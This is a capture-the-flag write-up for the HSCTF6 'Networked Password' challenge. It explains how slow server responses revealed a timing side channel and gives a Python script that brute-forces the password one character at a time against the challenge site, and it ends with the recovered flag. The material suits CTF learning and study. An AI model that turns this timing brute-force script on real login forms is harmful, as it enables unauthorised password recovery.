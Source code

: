 ```yaml
---
layout: default
title: HSCTF6 - Networked Password
---
```


<h1 align="center">[HSCTF6 - Networked Password]</h1>

## Challenge Description:
<p align="center"><img src="https://arkangels.github.io/ctf/assets/hsctf6_networked_password/challdesc.png"></p><br>
## Hint:
<p align="center"><img src="https://arkangels.github.io/ctf/assets/hsctf6_networked_password/hint.png"></p><br>

We are given a website.<br>
<p align="center"><img src="https://arkangels.github.io/ctf/assets/hsctf6_networked_password/index.png"></p><br>
Hmm... Seems like it's just a simple form. Let's take a look at the page source see if we can find anything.<br>
<p align="center"><img src="https://arkangels.github.io/ctf/assets/hsctf6_networked_password/page_source.png"></p><br>
Nothing, just a form which points to itself and an input box. What now? :)<br>
Well, let's just try to send something to the server and see the response.
<p align="center"><img src="https://arkangels.github.io/ctf/assets/hsctf6_networked_password/fuzzing.png"></p><br>
It seems, the <i>password</i> is the only thing sent to the server and if we don't provide the correct password it will return "Invalid Password". But what is the password? How do we find it?<br>
According to the challenge description, at some point the website's response is so damn slow. So, after some fuzzings, the writer found something interesting.<br>
<p align="center"><img src="https://arkangels.github.io/ctf/assets/hsctf6_networked_password/requests.png"></p><br>
When we send 2 requests, one with random string and one with not-so random string, it gives 2 very different response time.<br>
Random input:
<p align="center"><img src="https://arkangels.github.io/ctf/assets/hsctf6_networked_password/random_input.png"></p><br>
Not-so random input:
<p align="center"><img src="https://arkangels.github.io/ctf/assets/hsctf6_networked_password/specified_input.png"></p><br>
It seems when we input a random string, which is totally wrong, it gives a shorter response time. But, when we input a <i>specified</i> string it gives us a totally different response time. Looks like this is a bruteforce with timing attack problem. And like <a href="https://arkangels.github.io/ctf/hsctf6/super_secure_system/">Super Secure System</a> problem, we have to bruteforce the flag. But knowing this is a timing attack, it will take a fucking long time. To automate the process, we can use this python script.<br>
```python
import requests, string

url = 'https://networked-password.web.chal.hsctf.com'
charset = string.letters + string.digits + string.punctuation
# print charset
flag = "hsctf{"
resp = 0
char = ""

while flag[-1] != "}":
    for i in charset:
        payload = {"password":flag + i}
        # print "[*] Trying: " + flag + i
        r = requests.post(url, data = payload)
        if r.elapsed.total_seconds() > resp:
            resp = r.elapsed.total_seconds()
            char = i
    flag += char
    resp = 0
    print "[+] Flag: " + flag
```
The script simply make a bruteforce request and capture the character which return the highest response time. In here, the writer split the bruteforce process into parts because of that shitty laptop, the bruteforce process took like more than 2 hours. But here is the last part of the bruteforce.<br>
<p align="center"><img src="https://arkangels.github.io/ctf/assets/hsctf6_networked_password/flag.png"></p><br>
Flag: hsctf{sm0l_fl4g}
